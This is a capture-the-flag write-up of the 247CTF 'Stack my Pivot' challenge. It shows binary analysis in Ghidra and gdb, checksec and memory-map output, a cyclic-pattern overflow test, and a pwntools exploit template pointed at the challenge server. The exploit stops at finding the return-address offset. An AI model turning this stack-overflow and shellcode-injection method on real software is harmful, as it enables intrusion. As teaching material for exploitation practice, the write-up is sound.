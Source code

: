 # 247ctf-Stack-my-Pivot-Writeup
Try this challenge for yourself [here](https://247ctf.com/).


I found no writeup online for this challenge so here is one.

So There is the challenge:
![alt text](./screenshots/247Dashboard.png "Challenge infos")

We learn that the buffers will be small.
Let's look at it inside ghidra.

## Ghidra

![alt text](./screenshots/ghidra_main.png "ghidra main")

Nothing interesting in the main function, let's look at the chall function.

![alt text](./screenshots/ghidra_chall.png "ghidra chall")

So two buffers, the first one is large but cannot be overflowed the second is very small but can be overflowed by 8 bytes.

It appears simple enough, put some shellcode inside the first one, jump to it from the second one.

Let's analyze all this in gdb.



## GDB

First let's check security and permissions.
> checksec ./stack_my_pivot

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```

No PIE, nice. 64bit, wait we only read 24bytes, that's not a lot. Well this probably wont be a problem later.

I use gdb gef but use whatever you want

> gef> vmmap

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/emanone/Documents/CTF/247CTF/Pwn/StackPivot/stack_my_pivot
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/emanone/Documents/CTF/247CTF/Pwn/StackPivot/stack_my_pivot
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/emanone/Documents/CTF/247CTF/Pwn/StackPivot/stack_my_pivot
0x00007ffff7dcf000 0x00007ffff7dd1000 0x0000000000000000 rw- 
0x00007ffff7dd1000 0x00007ffff7df7000 0x0000000000000000 r-- /usr/lib/libc-2.32.so
0x00007ffff7df7000 0x00007ffff7f44000 0x0000000000026000 r-x /usr/lib/libc-2.32.so
0x00007ffff7f44000 0x00007ffff7f90000 0x0000000000173000 r-- /usr/lib/libc-2.32.so
0x00007ffff7f90000 0x00007ffff7f93000 0x00000000001be000 r-- /usr/lib/libc-2.32.so
0x00007ffff7f93000 0x00007ffff7f96000 0x00000000001c1000 rw- /usr/lib/libc-2.32.so
0x00007ffff7f96000 0x00007ffff7f9c000 0x0000000000000000 rw- 
0x00007ffff7fca000 0x00007ffff7fce000 0x0000000000000000 r-- [vvar]
0x00007ffff7fce000 0x00007ffff7fd0000 0x0000000000000000 r-x [vdso]
0x00007ffff7fd0000 0x00007ffff7fd2000 0x0000000000000000 r-- /usr/lib/ld-2.32.so
0x00007ffff7fd2000 0x00007ffff7ff3000 0x0000000000002000 r-x /usr/lib/ld-2.32.so
0x00007ffff7ff3000 0x00007ffff7ffc000 0x0000000000023000 r-- /usr/lib/ld-2.32.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002b000 r-- /usr/lib/ld-2.32.so
0x00007ffff7ffd000 0x00007ffff7fff000 0x000000000002c000 rw- /usr/lib/ld-2.32.so
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]
```

Executable stack, nice. Let's assume ASLR is on (it is).

Ok let's see what registers we can overwrite.
We now the read is 0x1c so 24.

> pattern create 28
```
[+] Generating a pattern of 28 bytes
aaaaaaaabaaaaaaacaaaaaaadaaa
[+] Saved as '$_gef0
```

We know the first one cannot be overflowed so let's not bother trying it.

> gef➤  c
```
Continuing.
[+] Welcome!
[+] What's your first name?
smth 
[+] What's your surname?
aaaaaaaabaaaaaaacaaaaaaadaaa
```

![alt text](./screenshots/register_overflow.png "register overflow")

So we write *%rsi* and we overwrite the 4 lower bytes of *%rip*, shit.

## Pwntools

Let's start using pwntools:
> pwn template ./stack_my_pivot --host 866e421af4e2b022.247ctf.com --port 50086 > exploit.py

I also like to add 
```
context.terminal = ['tmux', 'splitw', '-h']
```

To make debugging a real pleasure

``` python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ../stack_my_pivot --host 866e421af4e2b022.247ctf.com --port 50086
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('../stack_my_pivot')
context.terminal = ['tmux', 'splitw', '-h']
# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '866e421af4e2b022.247ctf.com'
port = int(args.PORT or 50086)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX disabled
# PIE:      No PIE (0x400000)
# RWX:      Has RWX segments

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

io.interactive()
```

We also know that *%rip* is at offset 24/

``` python
rip_offset = 24
```

## Thanks
I was really stuck on this challenge and the creator [Razvi](https://twitter.com/Razvieu) had the kindness of helping me ! Thanks to him for his time and for the challenge.